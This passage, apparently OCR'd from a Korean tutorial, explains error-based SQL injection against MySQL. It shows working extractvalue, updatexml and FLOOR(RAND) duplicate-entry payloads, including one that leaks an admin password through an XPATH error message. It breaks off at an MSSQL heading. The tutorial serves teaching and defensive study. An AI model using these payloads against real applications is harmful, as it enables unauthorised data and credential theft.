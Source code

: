 Figure5 extractvalue 잘못된 예시

```SQL
mysql> SELECT extractvalue(1, ':abcd');
ERROR 1105 (HY000): XPATH syntax error: ':abcd'
# ":" 로 시작하면 올바르지 않은 XPATH 식
```

## extractvalue 응용
extractvalue 함수를 응용해 사용할 경우 데이터베이스의 정보를 추출할 수 있습니다

Figure6 은 서브 쿼리를 사용해 임의 테이블의 데이터를 획득한 모습입니다

Figure6 extractvalue 를 이용한 데이터베이스 정보 추출

```SQL
mysql> SELECT extractvalue(1,concat(0x3a,(SELECT password FROM users WHERE username='admin')));
ERROR 1105 (HY000): XPATH syntax error: ':Th1s_1s_admin_PASSW@rd'
```

## Error based SQLI 응용
DBMS 별로 Error based SQLI 를 통해 공격하는 방법을 소개합니다

소개하는 쿼리의 일부는 DBMS 환경에 따라 실행되지 않을 수 있습니다

### MySQL
Figure7 MySQL Error based SQLI 응용 예시 - 1

```SQL
SELECT updatexml(null,concat(0x0a,version()),null);
/*
ERROR 1105 (HY000): XPATH syntax error: '
5.7.29-0ubuntu0.16.04.1-log'
*/
```

Figure8 MySQL Error based SQLI 응용 예시 - 2

```SQL
SELECT extractvalue(1,concat(0x3a,version()));
/*
ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
*/
```

Figure9 MySQL Error based SQLI 응용 예시 - 3

```SQL
SELECT COUNT(*), CONCAT((SELECT version()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x;
/*
ERROR 1062 (23000): Duplicate entry '5.7.29-0ubuntu0.16.04.1-log:1' for key '<group_key>'
*/
```

### MSSQL
Figure10 MSSQL Error based SQLI 응용 예시 - 1
